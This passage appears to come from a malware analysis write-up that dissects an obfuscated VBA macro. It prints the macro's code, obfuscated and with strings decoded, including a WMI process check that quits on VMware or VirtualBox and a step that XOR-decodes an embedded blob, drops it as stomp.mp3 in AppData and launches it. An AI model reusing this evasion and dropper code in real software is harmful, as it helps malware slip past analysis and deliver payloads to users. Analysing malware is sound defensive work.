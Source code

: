         Set fudgel = GetObject(rigmarole(onzo(7)))
        Set twattling = fudgel.ExecQuery(rigmarole(onzo(8)), , 48)
        For Each p In twattling
            Dim pos As Integer
            pos = InStr(LCase(p.Name), "vmw") + InStr(LCase(p.Name), "vmt") + InStr(LCase(p.Name), rigmarole(onzo(9)))
            If pos > 0 Then
                MsgBox rigmarole(onzo(4)), vbCritical, rigmarole(onzo(6))
                End
            End If
        Next
    

The first calls `GetInternetConnectedState` (which is just a wrapper around a
call to the `wininet.dll` [function](https://docs.microsoft.com/en-
us/windows/win32/api/wininet/nf-wininet-internetgetconnectedstate)
`InternetGetConnectedState(0&, 0&)`), and throws an error message box if not
connected to the internet, and then calls `End` to exit.

The second block is checking processes. Here’s how it looks with the strings
substituted in:

    
    
    Set fudgel = GetObject("winmgmts:\\.\root\CIMV2")
      Set twattling = fudgel.ExecQuery("SELECT Name FROM Win32_Process", , 48)
      For Each p In twattling
        Dim pos As Integer
        pos = InStr(LCase(p.Name), "vmw") + InStr(LCase(p.Name), "vmt") + InStr(LCase(p.Name), "vbox")
          If pos > 0 Then
            MsgBox "Sorry, this machine is not supported.", vbCritical, "Error"
            End
    	End If
    Next
    

It uses a WMI object to query for the list of processes. Then it loops over
them, for each checking (case insensitively) if the strings “vmw”, “vmt”, or
“vbox” are present, and if it finds anything, pops a message box and exits.

#### Create and Run File

The rest of the code creates and runs a file. Here it is (with deobfuscated
strings substituted in):

    
    
    xertz = Array(&H11, &H22, &H33, &H44, &H55, &H66, &H77, &H88, &H99, &HAA, &HBB, &HCC, &HDD, &HEE)
    
    wabbit = canoodle(F.T.Text, 0, 168667, xertz)
    mf = Environ("AppData") & "\Microsoft\stomp.mp3"
    Open mf For Binary Lock Read Write As #fn
    Put #fn, , wabbit
    Close #fn
    
    mucolerd = mciSendString("play " & mf, 0&, 0, 0)
    
